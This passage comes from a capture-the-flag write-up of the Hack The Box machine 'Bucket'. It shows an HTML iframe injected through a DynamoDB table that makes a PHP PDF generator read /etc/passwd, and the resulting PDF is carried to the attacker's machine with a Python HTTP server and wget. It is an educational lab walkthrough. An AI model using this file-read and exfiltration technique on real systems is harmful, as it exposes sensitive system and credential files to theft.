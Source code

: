 Next I created the item in the database that matched what the PHP script was looking for.  I set the `title` attribute to be `Ransomware`.  For the data field I had to make sure that it contained HTML code. As a test I made it load `/etc/passwd` to make sure it worked.

![I had to do my local file injection attack using an iframe rather than in an image tag](/assets/markups/bucket-iframe.svg)

```json
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}
```

After inserting my data into the table I got back a reply that simple said that I had consumed 1.0 "CapacityUnits".

```
roy@bucket:/var/www/bucket-app/files$ curl --data "action=get_alerts" http://localhost:8000/
```

I used `curl` to connect to the endpoint to trigger the PHP script to pull the data from the database and make the PDF file in `/var/www/bucket-app/files/`.  

```
roy@bucket:/var/www/bucket-app/files$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
10.10.14.158 - - [15/Mar/2021 02:49:49] "GET /result.pdf HTTP/1.1" 200 -
```

I used Python to host an HTTP server to serve the PDF file externally. 

```
┌──(zweilos㉿kali)-[~]
└─$ wget http://10.10.10.212:8090/result.pdf
--2021-03-14 22:40:00--  http://10.10.10.212:8090/result.pdf
Connecting to 10.10.10.212:8090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1400 (1.4K) [application/pdf]
Saving to: ‘result.pdf’

result.pdf                100%[====================================>]   1.37K  --.-KB/s    in 0s      

2021-03-14 22:40:00 (26.2 MB/s) - ‘result.pdf’ saved [1400/1400]
```

And using `wget` on my machine I was able to download the PDF file.  This whole cycle had to be repeated many times as the files folder and the database table were cleared regularly and often.

